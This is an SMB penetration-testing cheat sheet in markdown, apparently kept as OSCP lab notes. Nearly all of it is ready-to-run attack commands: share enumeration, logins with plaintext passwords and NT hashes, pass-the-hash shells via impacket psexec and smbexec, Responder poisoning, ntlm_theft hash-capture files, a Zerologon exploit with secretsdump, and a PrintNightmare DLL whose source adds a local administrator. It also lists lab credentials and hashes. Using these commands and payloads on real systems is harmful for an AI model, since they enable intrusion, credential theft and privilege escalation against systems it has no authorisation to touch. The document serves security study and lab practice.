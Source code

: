 ### Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 445 ip
```
```
NXC enumerate users:
nxc smb 10.10.11.108 -u '' -p '' --rid-brute
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)

### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares and share permissions
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
nxc smb ip -u username -p pwd --shares
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip | smbclient -L //ip -N 
smbmap -H ip -u anonymous | smbmap -H ip -u anonymous -p ''
nxc smb 10.10.150.236 -u anonymous -p '' --shares
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
smbclient //10.10.10.192/admin$ -U 'svc_backup' --pw-nt-hash 9658d1d1dcd9250115e2205d9f48400d
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Require writable Admin share and C share  
Require administrators local group  
Require file and printer Sharing  
Tool: psexec.py  
Shell Type: Interactive Shell  
Required Ports: 445 or SMB  
The typical tool to take advantage of this open port is psexec. But this is a very noisy method. Even though AV evasion is not something to worry about in PEN200 (it is on PEN300) But I still want to point it out. Default Windows AV caught this during my tests. Even though I turned it off for all these demonstrations
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
kali: impacket-smbexec timelapse.htb/administrator:'%A2Aj3d9h3%x-]BXE.gI+l6D'@10.10.11.152
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
### Netlogon Share
> Active Directory logon scripts are saved in the NETLOGON share by default

![image](https://github.com/user-attachments/assets/4cfcce22-9f4d-4437-bafd-5d41cda7b208)

### LLMNR/NBT-NS Poisoning through SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
###### NTLM_THEFT (https://github.com/Greenwolf/ntlm_theft/tree/master):
ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.
```
Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)

python3 ntlm_theft.py -g all -s 192.168.45.172(The IP address of your SMB hash capture server) -f contracts
```
### Zerologon CVE-2020-1472
```
Detect:
nxc smb ip -u username -p pass -M zerologon

Exploit:
python3 cve-2020-1472-exploit.py Monteverde(dc-name) 10.10.10.172(dc-ip)
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
### Printnightmare CVE-2021-1675 CVE-2021-34527
```
impacket-smbserver test . -smb2support

#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}


 x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll

python3 printnightmare.py -dll '\\10.21.176.25\test\adduser.dll' 'svc-admin:management2005@10.10.211.60'
```
